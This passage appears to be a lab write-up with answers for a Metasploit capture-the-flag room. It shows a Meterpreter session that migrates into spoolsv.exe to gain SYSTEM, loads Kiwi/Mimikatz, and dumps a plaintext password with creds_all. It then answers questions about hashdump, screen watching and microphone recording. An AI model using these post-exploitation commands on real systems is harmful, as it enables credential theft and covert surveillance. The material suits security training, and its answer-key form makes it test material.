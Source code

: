 1136  692   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe

1260  692   spoolsv.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe

1320  692   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe


`migrate 1260`

`getuid`

Server username: NT AUTHORITY\SYSTEM

Mimikatz is a rather infamous password dumping tool

Kiwi is the updated version of Mimikatz

`load kiwi`

`help`

`creds_all`

tspkg credentials
=================

Username  Domain   Password
--------  ------   --------
Dark      Dark-PC  Password01!

### #8  What is Dark's password?
    
    Password01!

## Task 6
## Post- Exploitation

### #2 	What command allows us to dump all of the password hashes stored on the system?

    hashdump

Command       Description
-------       -----------
hashdump      Dumps the contents of the SAM database


### #3 what command allows us to watch the remote user's desktop in real time?
    
    screenshare

### #4 	How about if we wanted to record from a microphone attached to the system?

